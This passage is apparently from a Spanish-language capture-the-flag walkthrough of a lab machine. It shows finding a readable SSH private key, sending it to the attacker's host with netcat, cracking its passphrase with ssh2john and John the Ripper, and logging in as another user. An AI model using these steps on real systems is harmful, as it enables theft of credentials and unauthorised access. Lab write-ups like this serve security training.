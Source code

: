 ~~~shell
cd .ssh
ls -al
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
~~~

La llave pirvada es cifrada con un *passphrase* que tenemos crackear. Pasamos la llave privada a la máquina del atacante:
~~~shell
uqnar@un:~$ nc -nlvp 5000 > id_rsa
~~~
~~~shell
jan@basic2:/home/kay$ nc 10.18.41.138 5000  < id_rsa
~~~

Obtenemos el hash para JohnTheRipper
~~~shell
uqnar@un:~/tmp$ ssh2john id_rsa > hash
~~~
~~~shell
$ sudo john -w:/usr/share/wordlists/rockyou.txt ./hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:00 DONE (2023-07-07 22:52) 1.388g/s 114911p/s 114911c/s 114911C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

~~~shell
$ sudo john -w:/usr/share/wordlists/rockyou.txt ./hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
No password hashes left to crack (see FAQ)
~~~

~~~shell
sudo john --show ./hash       
id_rsa:beeswax

1 password hash cracked, 0 left
~~~

~~~shell
jan@basic2:/home/kay/.ssh$ ssh -i id_rsa kay@localhost
Could not create directory '/home/jan/.ssh'.
The authenticity of host 'localhost (::1)' cant be established.
ECDSA key fingerprint is SHA256:+Fk53V/LB+2pn4OPL7GN/DuVHVvO0lT9N4W5ifchySQ.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/home/jan/.ssh/known_hosts).
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

~~~